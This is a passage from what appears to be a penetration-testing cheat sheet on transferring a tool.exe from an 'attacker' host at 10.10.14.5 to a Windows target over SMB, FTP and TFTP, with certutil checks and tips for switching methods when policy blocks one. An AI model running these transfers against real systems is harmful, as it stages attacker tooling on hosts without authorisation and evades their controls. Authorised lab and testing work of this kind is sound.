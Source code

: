 ```
copy \\10.10.14.5\SHARE\tool.exe C:\Users\Public\tool.exe
```

8) Optional: FTP/TFTP (only if available and permitted)
- Attacker: quick FTP server (requires pyftpdlib installed)
```
python3 -m pip install pyftpdlib --user
python3 -m pyftpdlib -p 21 -w
```
- Windows FTP client:
```
ftp -A 10.10.14.5
binary
get tool.exe C:\Users\Public\tool.exe
bye
```
- Windows TFTP client (if feature enabled) — uses binary mode with -i:
```
tftp -i 10.10.14.5 GET tool.exe C:\Users\Public\tool.exe
```

9) Verify and clean up
- Check file exists and size:
```
dir C:\Users\Public\tool.exe
```
- Hash for integrity:
```
certutil -hashfile C:\Users\Public\tool.exe SHA256
```
- Stop servers / unmap shares:
```
# On Windows
net use Z: /delete

# On attacker (Ctrl+C to stop http.server or SMB server)
```

## Practical tips
- Prefer pull methods from the Windows host; many environments block unsolicited inbound connections.
- Common save locations: C:\Users\Public\, %TEMP%, or the current user’s profile. Avoid writing to system-protected directories unless required.
- PowerShell Invoke-WebRequest is widely available; add -UseBasicParsing on older hosts.
- certutil is present on most Windows versions and works even when PowerShell is restricted.
- If SMB fails unauthenticated, run an authenticated Impacket SMB server and map with net use using provided credentials.
- Quote paths with spaces.
- Use absolute paths; relative paths can resolve unexpectedly in services/scheduled tasks.
- Verify with certutil -hashfile to ensure the file is intact before execution.
- If a method is blocked by policy, try an alternative (HTTP → SMB → BITS → curl → FTP/TFTP).
- Keep ports simple (80/8000 for HTTP) to minimize firewall issues; ensure the chosen port is reachable from the target.

